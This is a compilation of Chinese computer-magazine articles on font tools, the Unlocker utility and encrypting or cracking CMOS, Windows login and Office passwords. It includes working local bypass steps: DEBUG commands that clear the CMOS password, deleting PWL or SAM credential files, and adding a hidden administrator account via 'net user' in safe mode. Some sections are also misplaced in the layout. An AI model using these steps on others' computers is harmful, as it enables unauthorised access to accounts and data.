Windows操作系统虽然提供了字体的管理工具，但其功能相对较弱。通过“狐狗字体管理”这款免费绿色软件，则可以轻松达到字体管理的目的，软件下载地址为：http://www.skycn.com/soft/14596.html。它能准确地获取当前Windows系统内的可用字体列表(支持ttf、ttc、fon等字体文件格式)，预览字体时可以更改预览文本、颜色、大小及显示效果。另外，软件还附带了放大镜功能、键位对应功能、字体文件搜索功能、输出到网页文件功能等。如图5所示。


目前，关于字体管理的工具还有很多，例如：功能丰富的“xFontKing 字体精灵 V2.1”（http://www.skycn.com/soft/5051.html）；操作方便的“字体秀 V3.8.220”（下载地址：http://www.skycn.com/soft/14440.html）；贴心实用的“字体试衣间 V2.7.3.3 豪华版”（软件下载地址：http://www.skycn.com/soft/22060.html）等，都可以起到很好的字体管理作用。

#### 2. 仓颉造字：让字体更加个性化

虽然现在字体的样式很多，但并不能完全满足我们的需求，可能有不少用户热衷于学“仓颉造字”，这样制作的字体就很有意义了。通过Font Creator Program这款软件可以轻松创建新字体，软件下载地址为：http://www.high-logic.com/fcp.html。

- 第1步：运行Font Creator Program，点击“文件”菜单下的“新建”命令，在弹出的“创建TTF字体”窗口中给新字体命名。
- 第2步：在出现的“字体编辑”窗口中双击某一个字符，例如“D”，就可以进入“D”的编辑模式。点击“插入→轮廓”，使用笔触画出“D”的大致轮廓，然后再通过在字符上添加节点，以调整字符的具体样式。
- 第3步：将所有的字符全部制作完成之后，就可以点击“文件”菜单下的“保存”命令，将刚才制作的内容保存为一个新的字体文件。更方便的是，软件提供了对现有字体进行修改的功能，导入一种字体后，就可以开始一番别有滋味的“造字”活动了。

#### 3. 另类品位：让系统字体移植也疯狂

MAC与PC是不同的平台，其字体也是不能通用的。看着那么优美的字体不能为我所用，实在是一种莫大的遗憾。其实，通过CrossFont，就可以将Mac的字体转换为Windows格式。软件下载地址为：http://www.asy.com。

- 第1步：点击“File”菜单下的“Add Folder”，弹出“浏览文件夹”窗口，定位到包含了“.dfont”格式MAC字体的文件夹，点击“确定”按钮，就可以将这些字体导入程序。
- 第2步：导入完成后，程序的“Convert from”框中会自动切换到“DFONT FFIL tfil-Mac TrueType Font”项，并且会在右侧显示导入的字体数量。同时，在右侧的“Convert to”框中将会出现转换选项“TTF-PC TrueType Font”。
- 第3步：点击“Output Folder”处的浏览按钮，选择一个字体输出路径保存转换后生成的字体文件。完成所有的设置以后，在“Select font file to convent”列表中选择需要转换的字体，点击“File”菜单下的“Convent Selected”，程序立即开始字体转换。如图6所示。

#### 4. 独领风骚：电脑书法是这样练成的

在电脑上也可以练习书法？设计自己的签名？有了Ougishi这款软件，这些功能就是小菜一碟了。软件下载地址为：http://www.skycn.com/soft/25811.html。

- 第1步：安装并设置软件下载并安装软件后，在“书写窗口A（或B）”中就可以开始用鼠标手写汉字了。软件提供了“田字格”功能，单击菜单“选项”下的“参考线”，选择好宽高度和留白、显示方式后，书写窗口就会根据设置显示相应的表格辅助线。书写之前，在书写窗口右边单击“字体”按钮，从子菜单选择字体风格。
- 第2步：书写。用鼠标在程序的书写窗口上随便写几个字，再点击变换显示，就可以看到你的字变成了一些优美的书法字！程序的字体选择中预设了行书、草书、王羲之、怀素、徽宗、苏轼等十来种风格，如图所示的“爱好者”三个字，单击其中一种字体菜单后，如果还需稍加调整，还可以拖动右侧的草书、笔脉、轻笔、连绵等相关属性滑条，直到满意为止。如图7所示。

- 第3步：加上“飞白”效果。这种效果几乎可以让书法字体以假乱真。单击书写窗口右侧的属性项目“飞白”就可以实现，默认设置都是0，即未进行飞白处理，将滑条往后拉，根据设置的飞白强度，书写窗口的字体就会随机飞白，使字体显示更真实。
- 第4步：保存和输出。得到自己满意的作品后，可以输出为常见的图像格式如bmp、jpg、png、swf等，软件默认的文件格式是.wdf，可再次编辑。值得一提的是，这款软件书写的字体效果与机器安装字库无关，它不是一个文字识别软件，因此，书写后的字体“作品”很有个性化，非常适合用来做辅助设计，目前已经被广泛运用于广告设计行业！

通过上面的各种字体显示以及书法练习，我们已经充分领略了Windows系统字体的神奇和奥妙了。可见，在实际使用中，除了考虑Windows系统的美化外，我们还要积极发现字体中的一些独特使用方法，在网上论坛、邮件签名、广告设计等场合让Windows字体的功能发挥得淋漓尽致！

## Unlocker 最好的解锁工具

文/柴璟

相信很多用户在Windows下准备删除、移动、重命名或拷贝某个文件或文件夹时，却被系统告知文件或文件夹被某个程序所使用，无法完成相应操作，很多情况明明是没有任何程序在占用，让人百思不得其解。于是我们不得不重新启动计算机再进行相应的操作，非常的麻烦。有没有更简单的方法呢？回答是肯定的，就交给Unlocker来解决吧。通过Unlocker用户只需利用鼠标右键菜单进行简单的操作，即可完成以前需要重新启动计算机才能实现的操作。而且Unlocker不同于其他解锁软件，它并非强制关闭那些占用档案的程序，而是以解除档案与占用程序关连性的方式来解锁，因此不会像其他解锁软件一样因为强制关闭程序而造成用户可能的资料遗失。

### 一、软件的安装

Unlocker目前最新版本为1.8.5，适用于Windows 2000/XP/2003，用户可以在以前地址下载http://ccollomb.free.fr/unlocker/unlocker1.8.5.exe，软件大小仅为191KB，而且是免费的。 Unlocker的安装非常简单，运行下载到的unlocker1.8.5.exe程序，在弹出对话框的下拉菜单中选择相应的安装语言，在这里我们选择“简体中文”；在“选定安装位置”界面中，用户可根据自身要求更改软件的安装路径；在“选择组件”界面中，用户可以根据自身的需要安装相应的组件，一般按照默认选择即可；最后点击“完成”按钮即可退出安装向导，完成软件Unlocker的安装。


### 二、软件的使用

如果用户在对某个文件或文件夹进行操作时，弹出类似于图1的警告框。则只需在该文件或文件夹上单击鼠标右键，在弹出的菜单中选择“Unlocker”，在随后弹出的对话框中，用户可以选择“解锁”或者“解锁全部”，选择完毕后，点击“确定”按钮，Unlocker即会自动解除所有与该文件或文件夹有关联的程序进程，此后用户便可以顺利地进行删除、移动、重命名或拷贝操作了。

对话框中将出现一个列表，显示目前所有对该文件或文件夹进行锁定的进程（如图2）。在图2的左下角有个下拉菜单，对应的操作如下。

- **无动作：**
  当用户只需解锁所有锁定的进程，而不想对该文件或文件夹进行任何操作时选择该项。选择该项后，在图2中点击“全部解锁”按钮即可完成该操作。该选项对安全的弹出 USB 外设非常有用。

- **删除：**
  当用户需要在解锁所有锁定进程的同时，删除该文件或文件夹时选择该项。选择该项后，在图2中点击“全部解锁”按钮即可完成该操作，成功删除后会弹出提示。需要注意的是，虽然图中提示“文件被移到回收站里”，但实际是不经过回收站的完全删除，类似于“Shift+Delete”组合键。

- **再命名：**
  当用户需要在解锁所有锁定进程的同时，重命名该文件或文件夹时选择该项。选择该项后，会弹出一个“选择文件的新名称”的对话框（如图3），要求用户定义文件或文件夹的新名称。点击“确定”按钮后返回到图2的界面，再点击“全部解锁”按钮即可完成该操作。成功再命名后会弹出相关提示。

- **移动：**
  当用户需要在解锁所有锁定进程的同时，移动该文件或文件夹时选择该项。选择该项后，会弹出一个“浏览文件夹”的对话框，要求用户选择移动的目的地。选择后点击“确定”按钮后返回到图2的界面，再点击“全部解锁”按钮即可完成该操作。成功移动后会弹出相关提示。

- **拷贝：**
  当用户需要在解锁所有锁定进程的同时，拷贝该文件或文件夹时选择该项。选择该项后，会弹出一个“另存为”的对话框，要求用户选择拷贝的目的地。定位好最终的保存路径后，点击“保存”按钮后即可完成该操作。成功拷贝后会弹出相关提示。

### 三、技巧与提示

1. **技巧一**
  在安装时界面中，用户如果选择了“助手”选项，Unlocker 安装好后会在系统托盘区出现一个“Unlocker 助手”的图标。在“Unlocker 助手”运行的情况下，用户对某文件或文件夹进行操作时，如果有锁定的进程，“Unlocker 助手”会自动弹出图2的界面，而无需再点击鼠标右键。在图标上点击鼠标右键（见图4），可对“Unlocker 助手”进行相应的操作。

2. **技巧二**
  将以下内容作为注册表文件导入系统（请匹配软件实际的安装路径），当用户在鼠标右键菜单中选择“Unlocker”时将不再弹出图2的提示，而是直接解锁所有锁定的进程。这时用户将无法看到锁定进程列表，无法确定哪些进程是合法的，哪些进程是病毒或木马，所以笔者并不推荐这种运行方式。

```
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\*\shell\edit.Unlocker\command]
@="C:\Program Files\Unlocker\Unlocker.exe "%L" /S"

[HKEY_CLASSES_ROOT\Folder\shell\edit.Unlocker\command]
@="C:\Program Files\Unlocker\Unlocker.exe "%L" /S"
```

3. **技巧三**
  在安装时的界面中用户如果选择了“检查更新”选项，安装该软件后，用户的防火墙可能会出现“Unlocker 试图连接 Internet”的提示。重新安装 Unlocker，不勾选“检查更新”选项即可。

4. **技巧四**
  在安装时，可以看出该多国语言版已包括近30种语种，但如果仍不包括用户需要的语种时，用户只需从以下地址下载一个文本文件（http://ccollomb.free.fr/unlocker/english.txt），翻译后发给作者（ccollomb@yahoo.com）即可。

## ——电脑加密解密技巧

文/高中贵

最近看了一部电视剧，剧中的主人公是一名电脑黑客，可以在跨国公司网络中自由进出如入无人之地，将其重要的档案数据盗取并转卖给其他对头公司。虽然这仅仅是一部电视剧，但却让人联想到了在如今的信息时代，个人和公司数据资料的安全问题。为了保护重要数据的安全，公司投入大量资金来购买价格昂贵的硬件防火墙，个人也购买了正版的杀毒软件和防火墙软件，以防止病毒和黑客的入侵。而除此之外，还有一项重要的保护措施就是对数据进行加密。

### 第一篇 操作系统的加密解密策略

操作系统作为计算机应用的一个平台，如果用户拥有了操作系统的绝对权限，那么存放在电脑中的任何数据都将暴露无遗，于是操作系统的加密成了数据保护的第一道关口。

在 Windows 中，进入系统的唯一凭证就是其用户名，通常管理员都会给不同的用户分配不同的用户名称、密码以及权限，这样可以相对地防止其他用户的非法登录。做好操作系统的安全保护措施，当然不仅仅是设置用户权限这一种方式，除此之外还有 BIOS 密码设置、NTFS 文件加密等途径，下面就对这几种加密方式一一介绍。

### 一、CMOS 的加密与解密

在 Windows 9x 时代，虽然微软在操作系统中提供了用户名的密码设置功能，但该功能在实际应用中却如同虚设，根本就不能起到防止非法用户进入系统的目的，因此只有设置 CMOS 密码来给计算机加一个开机密码。

##### 1. CMOS密码的设置

在 CMOS 中有两种密码设置形式：一种是针对 CMOS 设置程序的进入密码设置，当设置了这个形式的密码后，进入 CMOS 程序就需要输入相应的密码；另一种是针对操作系统的密码，设置了这个形式的密码后，在进入操作系统时需要输入相应的密码。

在计算机启动时，按 Del 键进入 CMOS 设置程序，首先选择 BIOS FEATURES SETUP 菜单项，进入 BIOS FEATURES SETUP 设置界面。在该界面中有一个 Security Option 设置选项，该选项包括 System 和 Setup 两个选择项，其中：Setup 是表示进入 CMOS 设置时需要输入密码；System 是表示进入系统时需要输入的密码。如果仅仅是需要进入 CMOS 时输入密码，那么可将 Security Option 设置为 Setup。但通常情况下，都将 Security Option 设置为 System，因为这样仅可以设置进入 CMOS 的密码也可设置进入系统的密码。

设置好后，回到 CMOS 的主界面。在主界面中可以看到有 USER PASSWORD 和 SUPERVISOR PASSWORD 两个菜单项，其中 USER PASSWORD 是设置进入 CMOS 程序的入口，SUPERVISOR PASSWORD 是设置进入系统时的密码。

两者的设置方法是相同的，在此以设置 SUPERVISOR PASSWORD 为例。将光标移动到 SUPERVISOR PASSWORD 菜单项上，接着按下回车键，此时程序会在界面正中央显示一个红色的区域，提示 Enter Password，在此输入进入系统时所需的密码，然后按回车键。随后程序又提示 Confirm Password，这是让你再次确认密码，输入完成按回车键即可。

##### 2. CMOS的破解

CMOS 密码的设置就这么简单，接下来该讲讲 CMOS 密码的破解了。在前面已经讲到了取消密码的操作，操作是非常简单的，那在什么时候才需要对 CMOS 密码进行破解呢？通常来说，可能会有如下几种情况：

- 一种典型的情况就是密码设置者自己将密码忘记了。
- 购买了二手电脑，原电脑所有者设置了密码，而忘记在电脑卖出时取消密码。
- 经常使用该台电脑的用户自己私下设置了密码，而有时其他用户也可能会临时要用到这台电脑，而此时又找不着那个用户。

CMOS密码的破解方法主要有两种：一是用DEBUG程序；二是直接打开主板进行BIOS电池放电。对于前者，由于需要进入DOS模式下操作，因此仅适用于设置了CMOS程序进入密码的情况，而如果设置了进入系统的密码，那么就只有对BIOS进行放电了。

###### （1）用DEBUG程序清除CMOS密码

首先用光盘或软盘引导，启动计算机到DOS模式下，或者在进入操作系统后进入Windows的MS-DOS命令提示符窗口，在命令提示行状态下执行DEBUG命令，随后在窗口中会显示一个“-”的字符，我们就是在这里执行CMOS密码的破解代码的。在DEBUG中通常提供了两组破解命令，若其中一组命令不管用，可使用另外一组命令。

```
第一组命令：
- O 70 10
- O 71 ff
- q
```

```
第二组命令：
- O 71 20
- O 70 21
- q
```

选择其中一组命令执行后，重新启动计算机，让系统自动引导，看此时还会不会提示输入密码，若无任何提示就直接进入了操作系统，那就说明CMOS密码被清除掉了。

###### （2）用放电法来清除CMOS密码

当在CMOS中设置了进入系统的密码，此时即不能让计算机自动引导进入系统，也不能用光盘或软盘引导启动，那么就需要通过给BIOS放电来取消所设置的密码了。

- ◆ BIOS电池放电法
  在大部分主板中，可以找到一个BIOS芯片和BIOS电池。其中BIOS芯片的作用是保存CMOS中的设置，而BIOS电池则是为BIOS提供了启动时需要的电流，保证BIOS的设置不因计算机的断电而丢失。许多朋友有可能都遇到过这样一种情况：在一些已经使用了几年的计算机中，有一天CMOS中的设置忽然不能保存了，以前在CMOS中作的所有设置都不再有效，而CMOS中的时间也变为了1999-01-01。其实这种情况就是BIOS电池失效或接触不良所致，解决这个问题的办法是更换BIOS电池。
  同理，我们只要给BIOS电池放电，不就可以清除掉CMOS中的设置了吗？当然，在这些设置中也包括所设置的密码。
  给BIOS电池放电的方法很简单：首先从机箱中取出主板，在主板上找到BIOS电池并将其取下，在等待四五分钟后再放回电池，然后启动计算机就会发现CMOS密码已经被清除了。

- ◆ 跳线短接法
  在一些主板中，有可能找不到前面讲到的那块BIOS电池，对于这类主板一般都是使用跳线来给BIOS放电的。对于主板跳线，许多朋友或许没接触过，主板跳线一般由针脚和跳线帽组成，通过跳线帽将针角之间设为短路来改变主板的一些设置。当然，也有一些主板将跳线设计成了开关式的。
  那这些跳线该怎样设置呢？一般在主板说明书或主板上都可以找到跳线的具体设置方法，主板说明书中对跳线设置介绍得很详细，在此就不作说明。对于主板上的跳线设置方法，通常是用多个表格的方式来表述的，在这些跳线设置的表格中，列出了跳线的编号、位置和功能（如图1）。
  找到了清除CMOS密码的跳线所在位置，此时跳线帽一般插在针脚的1、2两个针脚上，拔下跳线帽将其插到2、3两个针脚上，接着让计算机通电，然后关闭计算机将跳线帽重新插到1、2两个针脚上即可。

以上就是两种较为常见的清除CMOS密码的方法，除此之外也有一些朋友提出了其他的一些解决方法，比如使用检测系统或开机密码的软件来获取CMOS密码，或在MS-DOS下编写一个COM文件，在该文件中写入一些特殊的代码来破解CMOS密码。这些方法由于笔者并没有使用过，因此也不便多加讨论，但在前面介绍的这两种方法是应用最广，也是最有效的，使用这两种方法一般都能解决问题。

#### 二、Windows系统登录加密与解密

如果说给CMOS设置密码是系统的第一道加密锁的话，那么Windows系统登录加密就应该是第二道加密锁了。众所周知，在Windows中可以给系统用户设置密码，使合法用户需要输入所设置的密码方能进入系统，这在很大程度上提高了系统的安全性。对于Windows中用户密码的设置想必不用笔者再多费口舌吧，在这里我们将要讨论的是几种另类的Windows系统登录加密途径，同时也介绍几种解密方法。

##### 1. 让Windows98登录密码不再形同虚设

在Windows98中，即便是给用户设置了登录密码，当出现登录框后依然可以点击“取消”按钮来绕过系统的密码验证。Windows98的登录保护功能如此鸡肋，难道就没有解决办法了？其实不然，我们可以给Windows98的登录保护功能进行升级，使得无法通过点击“取消”按钮来进入系统。具体操作方法如下：

- 第一步：
  首先建立一个具有密码的用户名。依次选择“开始”→“控制面板”→“用户”，打开“允许多用户设置”对话框。点击“下一步”按钮，在转入的界面中输入要建立的用户名称，再点击“下一步”按钮，在转入的界面中设置新建用户的密码，最后完成用户的创建工作。建立好一个用户后，Windows 系统会提示重新启动计算机，按照提示重新启动即可。

- 第二步：
  重新启动后以新建的用户名和密码登录到系统，接着打开注册表编辑器，定位到“HKEY_LOCAL_MACHINE\NETWORK\LOGON”分支，在右侧的窗口中右击鼠标，在弹出的菜单中依次选择“新建”→“DWORD值”，新建一个 DWORD 值，将其名称设置为“MustBeValidated”，然后双击该键值，在打开的对话框中将其键值设为1（如图2）。

- 第三步：
  退出注册表编辑器，在桌面的“网络”图标上右击鼠标，选择“属性”菜单项，在打开的“网络”对话框中点击“添加”按钮，接着在打开的对话框中选择“客户”列表项，点击“添加”按钮，然后依次选择“Microsoft”→“Windows友好登录”。

- 第四步：
  回到“网络”对话框，在“主网络登录”下拉列表框中选择“Windows友好登录”列表项（如图3）。
  按上述方法设置好的 Windows 98 系统，将要求用户必须具备登录权限，如果登录过程中按 ESC 键，会弹出提示框提示拒绝其登录系统（如图4）。
  重新启动计算机，此时就会发现在登录框中已经不能通过点击“取消”按钮来进入系统了。

#### 2. 破解 Windows 98 登录密码

对于这种加密方式，破解方法也十分简单。因为 Windows 98 会将用户密码存入到一个扩展名为 PWL 的文件中，而删除这个文件后，系统又会自动生成一个密码为空的 PWL 文件代替它处理用户登录活动。因此，只需在 DOS 环境下删除 Windows 目录下所有的 PWL 文件，就可以使用空密码进入任何一个账户中。具体操作如下：

- **第一步：** 启动计算机，按 F8 键进入 Windows 启动菜单，选择 “command prompt only” 菜单进入 DOS 模式。
- **第二步：** 在 DOS 提示符下切换到 windows 目录，接着执行 “Del *.pwl” 命令将该目录下的所有 PWL 文件删除。
- **第三步：** 重新启动计算机，在 Windows 登录窗口中选择某一个用户名随意输入密码，即可进入 Windows 98。

#### 3. 破解 Windows 2000 登录密码

Windows 2000 与 Windows XP 一样，可以设置登录用户的密码并且分配相应的权限。作为一个管理员，因为网络中的计算机较多，经常会因为用户擅自修改了操作系统的登录密码，以致其他用户不能正常进入操作系统。
其实 Windows 2000 中的用户资料和登录密码也是存在一个文件中的，其文件格式为 SAM，只要删除该文件就可将 Windows 2000 的登录密码设为空。具体方法是：
首先用光盘或软盘引导启动计算机，在 DOS 下删除 “Winnt\System32\Config” 中的 SAM 文件即可。

#### 4. 鲜为人知的 Windows XP 系统登录加密方法

在我们给 Windows XP 设置登录密码时，其实操作系统已经对所设置的密码作过加密工作。为此，许多不法用户总是绞尽脑汁想要破解这个登录密码。那么可不可以对已设置的密码进行再次加密呢？当然是可以的！这是 Windows XP 中隐藏的一种登录密码加密方式，用到的是系统中的 SYSKEY 工具。具体操作方法如下：

- **第一步：** 依次选择 “开始” → “运行” 命令，在 “运行” 对话框中输入 “syskey” 打开 “保证 Windows XP 账户数据库的安全” 对话框（如图5），在该对话框中点击 “更新” 按钮，打开 “启动密码” 对话框。
- **第二步：** 选中 “密码启动” 单选按钮，接着在该选项区域中输入密码即可。
  以后，在系统启动时，首先会出现一个密码对话框，要求用户输入在“启动密码”对话框中设置的账户密码，密码无误后才能正常启动Windows XP，选择用户名进行登录操作。这样，就算有人非法获取了系统管理员的密码，没有第二个开机密码，也无法进入系统。

#### 5. Windows XP 登录密码限制

这种方式是通过对注册表进行修改，而限制用户在设置密码时的密码长度和组合，以使登录密码更加复杂，让非法用户不能轻易破解。具体操作方法是：

- 第一步：
  打开“注册表编辑器”，展开“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\Network”分支。
- 第二步：
  在右侧的窗口中新建一个名为“MinPwdLen”的二进制值，将其键值设置为“08”，这里所设置的键值是表示密码的最小长度，如将键值设置为“05”，那就是表示密码的最小长度为5位。
- 第三步：
  以上对密码的长度作了限制，下面再对密码的组成进行设置。在注册表编辑器中展开“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\Network”分支，在右侧的窗口中新建一个名为“AlphanumPwds”的DWORD值，将其键置设为1，这样所设置的密码就只能由数字和字线组成。

#### 6. 破解 Windows XP 登录密码

在Windows XP中，其用户资料和密码同样是存放在SAM文件中的，但要想破解Windows XP的登录密码，却不能像Windows 2000一样直接将SAM文件删除，这样会导致登录出错。对于Windows XP登录密码的破解，可以使用net user命令。
Net user命令用于添加、修改用户账户或者显示用户账户信息，其语法和命令参数如下：

```
Net user [UserName [Password | *] [options]] [/domain]
Net user [UserName {Password|*} /add [options] [/domain]]
Net user [UserName [/delete] [/domain]]
```

其中：UserName是指定要添加、删除、修改或查看的用户账户名，Password是为用户账户指派或更改密码。破解步骤如下：

- 第一步：
  在Windows XP启动时按F8键，进入系统高级选项菜单，选择“带命令行的安全模式”菜单项进入Windows XP的安全模式。
- 第二步：
  进入Windows XP的安全模式后，系统会在屏幕中显示一个命令提示符窗口，在其命令行下执行net user pcdelphi 123456 /add命令，这是为Windows XP新建一个名为pcdelphi的用户，其密码为123456。
- 第三步：
  接着再执行net localgroup administrators pcdelphi /add命令，将新建的pcdelphi用户设置为管理员账户，然后重新启动计算机。
- 第四步：
  重新启动后，以pcdelphi这个用户和密码进行登录就可顺利进入系统了。

### 三、NTFS 文件系统的加密与保护措施

不管是设置CMOS密码，还是对Windows用户加密，都只能是加强本机的系统安全，而不能保护硬盘中的数据。如果硬盘被盗，盗用者只需将系统格式化一次，那硬盘中的数据就一览无余了。因此，可以利用NTFS文件系统的加密功能来实现对文件和文件夹的加密。
NTFS是Windows NT以上版本支持的一种提供高安全性、可靠性的高级文件系统，在Windows 2000和Windows XP中，NTFS系统可以提供诸如文件和文件夹权限、加密、磁盘配额和压缩这样的高级功能。

#### 1. 分配和转换 NTFS 分区

为了方便DOS与Windows平台的交互使用，许多用户都习惯了使用FAT32分区，因此要实现NTFS文件系统的加密，首先得将FAT32分区转换为NTFS分区。
对于还没有进行分区的硬盘，可以使用PQ之类的分区软件直接将硬盘分区分为NTFS格式，而如果要将已存放了数据的FAT32分区转换为NTFS分区，可以用Convert命令。
Convert命令的使用很简单，例如，要将F盘转换为NTFS分区，可在命令提示符窗口的命令行状态下执行convert f: /fs:ntfs命令即可。

#### 2. NTFS 文件系统的加密

将硬盘分区转换为了NTFS，就能对该分区中的文件和文件夹进行加密了，下面以一个文件夹的加密操作为例，介绍NTFS文件系统的加密步骤。

- 第一步：
  在NTFS分区中选择一个要进行加密的文件夹，在该文件夹上单击鼠标右键，在弹出的菜单中选择“属性”菜单项，打开文件夹属性对话框。
- 第二步：
  在“常规”选项卡中点击“高级”按钮，打开“高级属性”对话框。在“压缩或加密属性”选项区域中选中“加密内容以便保护数据”复选框，然后点击“确定”按钮。
  对文件夹进行加密后，就只能由加密用户进行访问，其他用户访问该文件夹时会有拒绝访问的提示。

#### 3. NTFS 加密文件夹的保护

当在Windows XP中，用pcdelphi用户对F盘下的QQ文件夹进行加密后，以后就只能使用该用户来访问这个QQ文件夹了，而当重装了操作系统后，再访问QQ文件夹时，系统会提示“拒绝访问”，因此需要备份加密用户的证书，以便在重装系统后进行恢复。具体操作步骤如下：# 第二篇 文档加密解密

在计算机中，数据多是以文档的形式进行保存的。由于许多办公室的电脑都是公用的，因此文件被窃取和恶意篡改的事情时有发生，因此如何保护电脑中的文档资料成了人们首要解决的问题。

#### 一、Word文档加密与解密

Word是最为常用的文字处理软件，一般公司的常用文件大多都是使用Word排版的。为了让用户更好地保护Word编写的文件，其自身也提供了一些加密和保护功能。

##### 1. Word文档加密

大致来说，Word中提供的加密功能包括普通加密、模板加密和宏自动加密，其中：普通加密是最常用的一种Word文档保护形式，由于许多用户很少使用模板和宏这两个功能，因此对这两种加密形式不甚了解，下面就来看看Word中自带的几个加密功能。

- 第一步：
  以加密用户登录计算机，依次选择“开始”→“运行”命令，在“运行”对话框中输入“MMC”，单击“确定”按钮，打开“控制台”窗口。

- 第二步：
  在窗口菜单中依次选择“文件”→“添加／删除管理单元”命令，打开“添加／删除管理单元”对话框。

- 第三步：
  在“独立”选项卡中点击“添加”按钮，在打开的对话框的列表中选择“证书”，然后点击“添加”按钮，打开“证书管理单元”对话框（如图6）。

  

- 第四步：
  选中“我的用户账户”单选按钮，然后点击“完成”按钮。回到“控制台”窗口，此时在左侧的列表中就多了一个“证书 – 当前用户”列表项。

- 第五步：
  在“控制台”窗口左侧的列表中依次展开“证书 – 当前用户”→“个人”→“证书”（注：若此用户账号从未对文件加密就没有“证书”列表项），此时在右侧的窗口中就会显示用户的证书名称。

- 第六步：
  右击该证书，在弹出的菜单中依次选择“所有任务”→“导出”命令，然后系统会打开密钥导出向导，根据提示一路点击“下一步”按钮即可。在导出向导中会提示输入保护密钥的密码，最后将密钥保存到一个扩展名为PFX的文件里。

在对加密用户的证书进行备份后，若重装了操作系统，只需要找到备份的证书文件（扩展名为PFX），在该文件上单击鼠标右键，然后选择“安装PFX”菜单项。接着会打开密钥向导，输入密钥保护密码，注意存储区域必须选择“个人”，否则即使导入成功也不能打开文件，然后系统提示导入成功。

###### （1）普通加密

- 第一步：
  首先打开要进行加密的Word文档，依次选择“工具”→“选项”命令，打开“选项”对话框。

- 第二步：
  选择“安全性”选项卡（如图7），接着分别在“打开文件时的密码”和“修改文件时的密码”文本框中输入相应的密码。在这里所设置的这两个密码可以相同，也可以不相同，如果只设置了修改文件时的密码，那么可以打开文件，但不能对文件进行修改。

  

###### （2）模板加密

用Word编排文档时，用户时时刻刻都在使用模板，模板是一类特殊的文档，它可以提供完成最终文档所需要的基本工具，使用模板可以快速生成所需要文档的大致框架，而我们平时打开Word看到的就是其Normal模板。通过对Word的Normal模板进行加密，可以限制用户对Word的使用。具体操作步骤如下：

- 第一步：
  要对Normal模板进行加密，首先就得找到这个模板文件在计算机中的存放位置。打开Word新建一个空白文件，依次选择“工具”→“选项”，在打开的对话框中选择“文件位置”选项卡。

- 第二步：
  在选项卡的“文件位置”列表中选择“用户模板”，然后点击“修改”按钮打开“修改位置”对话框。

- 第三步：
  在对话框的工具栏中依次选择“工具”→“属性”，此时系统会打开Word模板存放文件夹的属性对话框（如图8），在该对话框中的“位置”一项中就是当前模板文件的存放路径。

  

  存放路径了，其路径大致为“C:\Documents and Settings\jjxiaoyan\Application Data\Microsoft”，其中jjxiaoyan为当前的Windows用户。

- 第四步：
  依照普通加密的方法对当前建立的空白文件进行加密，接着依次选择“文件”→“保存”命令，在打开对话框的“保存类型”下拉列表中选择“文档模板(*.dot)”，然后将保存的文件名称取为“Normal1.dot”，最后保存到模板文件的存放文件夹下。

- 第五步：
  打开Word模板存放文件夹，此时在该文件夹下有“Normal.dot”和“Normal1.dot”两个文件，将“Normal.dot”文件删除，然后再将“Normal1.dot”重命名为“Normal.dot”。
  这样，以后每次打开Word都会提示输入模板密码，若没有密码就不能使用Word。

###### （3）宏自动加密

许多用户都使用过批处理文件，它可以将一些常用的、重复的操作步骤写入批处理中，这样以后在使用这些操作时就不用一步一步地重复执行，从而极大地节省了操作时间，而Word中的宏也是这个道理。Word中的宏除了有以上的特点外，同样可用于对Word文档的加密。具体方法如下：

- 第一步：
  在Word中依次选择“工具”→“宏”→“宏”，打开“宏”对话框。在“宏名”文本框中输入“AutoPassword”，接着在“宏的位置”下拉列表中选择“所有的活动模板和文档”，然后点击“创建”按钮打开“宏”编辑窗口。

- 第二步：
  在代码区域的Sub AutoPassword()和End Sub之间插入如下代码：

  ```
  With Options
      .AllowFastSave = True
      .BackgroundSave = True
      .CreateBackup = False
      .SavePropertiesPrompt = False
      .SaveInterval = 10
      .SaveNormalPrompt = False
  End With

  With ActiveDocument
      .ReadOnlyRecommended = False
      .EmbedTrueTypeFonts = False
      .SaveFormsData = False
      .SaveSubsetFonts = False
      .Password = "jjxiaoyan"
      .WritePassword = "jjxiaoyan"
  End With

  Application.DefaultSaveFormat = ""
  ```

  在这段代码中的“.PassWord=”和“WritePassword=”分别是设置“打开文件的权限密码”和“修改文件的权限密码”，在这里我们设置的是“jjxiaoyan”。

- 第三步：
  依次选择“文件”→“保存Normal”命令，然后再依次选择“文件”→“关闭并返回Microsoft Word”命令。

- 第四步：
  接下来为了更方便地使用该宏，需要为它指定一个快捷键。依次选择“工具”→“自定义”命令，打开“自定义”对话框。

- 第五步：
  选择“命令”选项卡，点击“键盘”按钮打开“自定义键盘”对话框。

- 第六步：
  在“类别”列表中选择“宏”，接着在右侧的“命令”列表中选择“AutoPassword”，然后在“请按新快捷键”文本框中设置一个快捷键，如“Ctrl+F1”，最后点击“指定”按钮。这样以后若需要对Word进行加密，只需要按下“Ctrl+F1”组合键就可以了。

##### 2. Word密码的破解

为Word文档加密是件好事，但如果过段时间忘记了密码怎么办？在此推荐一款Word密码破解软件——Word Password Recovery Master，利用它可以在很短的时间内解除Word中的密码。

- 第一步：
  下载并解压Word Password Recovery Master，运行解压文件夹中的WPasRec.exe。

- 第二步：
  点击程序界面中的浏览图形按钮，选择要进行密码破解的Word文件存放路径。如果该Word文件同时设置了文件打开密码和修改密码，此时在“Word document passwords”选项区域中的“Open password”和“Write”后都有一个“Remove”按钮，点击相应的“Remove”按钮就可以清除Word的密码了。
  最后会在加密文档的同级目录下生成一个新文件，以“demo”标注，再次打开这个文件，或者点击软件界面的“Open Document in Microsoft Word”直接打开破解后的文档。

#### 二、Excel文档加密与解密

要对Excel文档进行加密，其操作的方法与Word有些类似。打开Excel文档，依次选择“文件”→“另存为”命令，在打开的“另存为”对话框的工具栏中依次选择“工具”→“常规选项”，打开“保存选项”对话框（如图9）。分别在该对话框的“打开权限密码”和“修改权限密码”文本框中设置相应的密码即可。


以上是对 Excel 文档的加密方式，除此之外 Excel 还能对 Excel 文档中的工作表和工作簿进行加密。

### 1. 保护 Excel 工作表

在一个 Excel 文档中可以存在多个工作表，当我们在用 Excel 制作完表格文件后，如果不想让其他人再对 Excel 工作表进行编辑和修改，那么可以对工作表进行加密。

在 Excel 中选定一个工作表，依次选择 “工具” -> “保护” -> “保护工作表”，打开 “保护工作表” 对话框（如图 10）。


